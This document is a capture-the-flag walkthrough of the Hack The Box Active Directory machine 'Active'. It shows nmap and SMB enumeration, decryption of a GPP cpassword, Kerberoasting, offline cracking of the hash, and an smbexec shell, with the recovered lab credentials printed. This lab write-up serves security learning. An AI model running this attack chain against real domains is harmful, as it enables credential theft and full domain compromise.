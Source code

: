 # Active

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.192.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:08 EDT
Nmap scan report for 10.129.192.152
Host is up (0.014s latency).
Not shown: 60173 closed tcp ports (conn-refused), 5341 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49165/tcp open  unknown
49170/tcp open  unknown
49172/tcp open  unknown
```

Since this is an AD machine, we can start with basic enumeration of SMB shares, Kerberos and LDAP.

### SMB Enum

Checking SMB shares via `smbmap` reveals there is one share available:

```
$ smbmap -H 10.129.192.152                                  
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS
```

We can use `smbclient` to login and view the files:

```
$ smbclient -U "" //10.129.192.152/Replication -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

                10459647 blocks of size 4096. 5186557 blocks available
```

We can download all the files present within the machine using these commands, and I saw an interesting file:

{% code overflow="wrap" %}
```
mask ""
recurse ON
prompt OFF
mget *
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (16.8 KiloBytes/sec) (average 23.8 KiloBytes/sec)
```
{% endcode %}

Within this file, we can find an encrypted pasword:

{% code overflow="wrap" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
{% endcode %}

This was a GPO password, and it can be decrypted using `gpp-decrypt` since we have the key and the password.

{% embed url="https://www.kali.org/tools/gpp-decrypt/" %}

```
$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Now, we have a password of a service account to use. With this, we can read the `C:\Users` directory and find the flag in the Desktop of `SVC_TGS` user.&#x20;

```
$ smbmap -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -H 10.129.192.152 
[+] IP: 10.129.192.152:445      Name: 10.129.192.152                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

## Privilege Escalation

### Kerberoasting

We have access to a service account here, and it is for the Ticket Granting Service. As such, we can attempt to do Kerberoasting.&#x20;

```
$ impacket-GetUserSPNs -request -dc-ip 10.129.192.152 active.htb/SVC_TGS -outputfile hashes.kerberoast 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-05-05 02:07:43.878117             
```

So we can use this to harvest the TGS tickets for the administrator. Then, we can crack the hash (because user passwords are used to encrypt the tickets).

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2023-05-05 02:21) 0.2277g/s 2400Kp/s 2400Kc/s 2400KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can get a shell via `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (17) (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
